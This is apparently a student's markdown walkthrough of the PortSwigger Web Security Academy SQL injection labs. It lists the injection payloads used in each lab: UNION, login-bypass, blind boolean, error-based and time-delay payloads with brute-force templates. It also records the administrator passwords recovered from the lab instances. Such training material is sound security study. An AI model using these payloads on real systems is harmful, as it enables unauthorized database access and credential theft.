

# PortSwigger Labs
<!-- vscode-markdown-toc -->
* 1. [SQL Injection](#SQLInjection)
	* 1.1. [Lab 01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#Lab01:SQLinjectionvulnerabilityinWHEREclauseallowingretrievalofhiddendata)
	* 1.2. [Lab 02: SQL injection vulnerability allowing login bypass](#Lab02:SQLinjectionvulnerabilityallowingloginbypass)
	* 1.3. [Lab 03: SQL injection attack, querying the database type and version on Oracle](#Lab03:SQLinjectionattackqueryingthedatabasetypeandversiononOracle)
	* 1.4. [Lab 04: SQL injection attack, querying the database type and version on MySQL and Microsoft](#Lab04:SQLinjectionattackqueryingthedatabasetypeandversiononMySQLandMicrosoft)
	* 1.5. [Lab 05: SQL injection attack, listing the database contents on non-Oracle databases](#Lab05:SQLinjectionattacklistingthedatabasecontentsonnon-Oracledatabases)
	* 1.6. [Lab 06: SQL injection attack, listing the database contents on Oracle](#Lab06:SQLinjectionattacklistingthedatabasecontentsonOracle)
	* 1.7. [Lab 07: SQL injection UNION attack, determining the number of columns returned by the query](#Lab07:SQLinjectionUNIONattackdeterminingthenumberofcolumnsreturnedbythequery)
	* 1.8. [Lab 08: SQL injection UNION attack, finding a column containing text](#Lab08:SQLinjectionUNIONattackfindingacolumncontainingtext)
	* 1.9. [Lab 09: SQL injection UNION attack, retrieving data from other tables](#Lab09:SQLinjectionUNIONattackretrievingdatafromothertables)
	* 1.10. [Lab 10: SQL injection UNION attack, retrieving multiple values in a single column](#Lab10:SQLinjectionUNIONattackretrievingmultiplevaluesinasinglecolumn)
	* 1.11. [Lab 11: Blind SQL injection with conditional responses](#Lab11:BlindSQLinjectionwithconditionalresponses)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[PortSwigger Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[PortSwigger Labs](https://portswigger.net/web-security/all-labs#sql-injection)

----

##  1. <a name='SQLInjection'></a>SQL Injection
###  1.1. <a name='Lab01:SQLinjectionvulnerabilityinWHEREclauseallowingretrievalofhiddendata'></a>Lab 01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Level: Apprentice


'?category='


the application carries out a SQL query like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

You can put the clause 'AND released = 1' after a '--' quote (comment syntax). Then the clause 'AND released = 1' no longer available.

Query:
```
?category=Gifts' or 1=1--;'
?category=Gifts%27%20or%201=1--;%27
```


###  1.2. <a name='Lab02:SQLinjectionvulnerabilityallowingloginbypass'></a>Lab 02: SQL injection vulnerability allowing login bypass
[Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)


Query:
```
Username: administrator'--
Password: random
```

###  1.3. <a name='Lab03:SQLinjectionattackqueryingthedatabasetypeandversiononOracle'></a>Lab 03: SQL injection attack, querying the database type and version on Oracle

[Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Query:
```
?category=Gifts' UNION SELECT 'a',banner FROM v$version--
```


###  1.4. <a name='Lab04:SQLinjectionattackqueryingthedatabasetypeandversiononMySQLandMicrosoft'></a>Lab 04: SQL injection attack, querying the database type and version on MySQL and Microsoft
[Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)


```
GET /filter?category='+UNION+SELECT+'test1','test2'# HTTP/2
```


```
GET /filter?category='+UNION+SELECT+@@version,NULL# HTTP/2
```


###  1.5. <a name='Lab05:SQLinjectionattacklistingthedatabasecontentsonnon-Oracledatabases'></a>Lab 05: SQL injection attack, listing the database contents on non-Oracle databases
[Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

```
GET /filter?category='UNION+SELECT+NULL,NULL-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+'test1','test2'-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+table_name,NULL+from+information_schema.tables-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+*+from+users_tmnxqa-- HTTP/2
```


```
User: Administrator
Password: 0dljnpj83cftlgyx16jq
```


###  1.6. <a name='Lab06:SQLinjectionattacklistingthedatabasecontentsonOracle'></a>Lab 06: SQL injection attack, listing the database contents on Oracle
[Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)


```
GET /filter?category='UNION+SELECT+'test1','test2'+from+dual-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+table_name,NULL+FROM+all_tables-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_IYIJQZ'-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+PASSWORD_KXIRJS,NULL+FROM+USERS_IYIJQZ+WHERE+USERNAME_WZVTMB='administrator'-- HTTP/2
```


```
Username: administrator
Password: p6rdwe329a5kgdsu4q5b
```


###  1.7. <a name='Lab07:SQLinjectionUNIONattackdeterminingthenumberofcolumnsreturnedbythequery'></a>Lab 07: SQL injection UNION attack, determining the number of columns returned by the query

[Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

```
GET /filter?category='UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```

-> table has 3 columns


###  1.8. <a name='Lab08:SQLinjectionUNIONattackfindingacolumncontainingtext'></a>Lab 08: SQL injection UNION attack, finding a column containing text
[Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)


```
GET /filter?category='UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```

-> table has 3 columns


```
GET /filter?category='UNION+SELECT+NULL,'ViFdd7',NULL-- HTTP/2
```


###  1.9. <a name='Lab09:SQLinjectionUNIONattackretrievingdatafromothertables'></a>Lab 09: SQL injection UNION attack, retrieving data from other tables
[Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

```
GET /filter?category='UNION+SELECT+username,password+from+users+WHERE+username='administrator'-- HTTP/2
```


###  1.10. <a name='Lab10:SQLinjectionUNIONattackretrievingmultiplevaluesinasinglecolumn'></a>Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
[Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

```
GET /filter?category='UNION+SELECT+NULL,'test2'-- HTTP/2
```


```
GET /filter?category='UNION+SELECT+NULL,password+from+users+WHERE+username='administrator'-- HTTP/2
```


```
Username: administrator
Password: at83g32icqx71z7sboa0
```


###  1.11. <a name='Lab11:BlindSQLinjectionwithconditionalresponses'></a>Lab 11: Blind SQL injection with conditional responses
[Link](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)


-> TrackingId: v0gRhsIwxZaVQJ5y

```
GET /filter?category='Pets-- HTTP/2
Host: 0a3f004804f1839b811ed70f008900d7.web-security-academy.net
Cookie: TrackingId=v0gRhsIwxZaVQJ5y; session=HpO6JP8rKpnyc9ehjYBb9cSkohAAgT13
```


-> 'Welcome back' message appears when the query return null/false.
-> Brute force the information by blind SQL injection in the Cookie.TrackingId field.

Try to guest the length of the password
```
TrackingId=v0gRhsIwxZaVQJ5y'+AND+(SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)>1)='a'--
```


If the length is true, the 'Welcome back' message will be disappeared.

-> The password length is 20.


```
TrackingId=v0gRhsIwxZaVQJ5y'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),§1§,1)='§a§'--
```



Payload settings:


Attacking...


```
Username: administrator
Password: qd7g73kl51rhmvdb63xv
```


### Lab 12: Blind SQL injection with conditional errors
[Link](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

```
TrackingId=<Your TrackingId>'
```

-> Internal Error

```
TrackingId=<Your TrackingId>'||'
```

-> No more Internal Error

```
TrackingId=<Your TrackingId>'||(SELECT+''+FROM+dual)||'
```
-> No Internal Error -> Oracle Server


```
TrackingId=<Your TrackingId>'||(SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual)||'
```
-> No Internal Error

Brute force the password length
```
TrackingId=<Your TrackingId>'||(SELECT+CASE+WHEN+(LENGTH(password)=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users+WHERE+username='administrator')||'
```

If the length is true, the response will contain the SQL error


-> The length of the password is 20

Brute force the password
```
TrackingId=<Your TrackingId>'||(SELECT+CASE+WHEN+(SUBSTR(password,§1§,1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users+WHERE+username='administrator')||'
```

Payload settings:


Attacking:


```
Username: administrator
Password: zw2nvf9u3eeztllnsih5
```


### Lab 13: Visible error-based SQL injection
[Link](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)


```
TrackingId=<Your TrackingId>'+AND+1=CAST((SELECT 1) AS int)--
```

-> No verbose error 

```
TrackingId=<Your TrackingId>'+AND 1=CAST((SELECT * from users) AS int)--
```

-> ERROR: subquery must return only one column

```
TrackingId=' AND 1=CAST((SELECT password from users LIMIT 1) AS int)--
```
**You need to remove your tracking id to free up some characters that your query can then use**


```
Username: administrator
Password: r2tlshhvr6m1cqmllrt3
```


### Lab 14: Blind SQL injection with time delays
[Link](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Time delays cheat sheet:


```
TrackingId=<Your TrackingId>'||pg_sleep(10)--
```


### Lab 15: Blind SQL injection with time delays and information retrieval
[Link](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

```
TrackingId=<Your TrackingId>'||pg_sleep(10)--
```
-> PostgreSQL

```
TrackingId=<Your TrackingId>'||CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
If your condition is true, the website will be delayed for 10 seconds.

Brute force to find the password length
```
TrackingId=<Your TrackingId>'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=$1$)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

-> The password length is 20

Brute force the password 
```
TrackingId=<Your TrackingId>'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```


```
Username: Administrator
Password: 3ewy9yfdfg7vfqjlv1oy
```


### Lab 16: Blind SQL injection with out-of-band interaction
[Link](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)


